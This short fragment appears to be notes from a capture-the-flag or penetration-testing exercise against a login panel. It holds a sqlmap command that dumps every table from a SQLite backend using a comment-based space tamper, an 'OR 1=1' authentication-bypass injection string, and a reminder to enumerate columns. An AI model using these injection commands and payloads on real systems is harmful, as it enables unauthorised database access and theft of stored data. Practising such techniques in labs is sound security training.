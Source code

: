 sqlmap -r panel.request --tamper=space2comment --dump-all --dbms sqlite

##sqlmap not allowed
admin' OR 1=1 -- -

enumerate number of columns
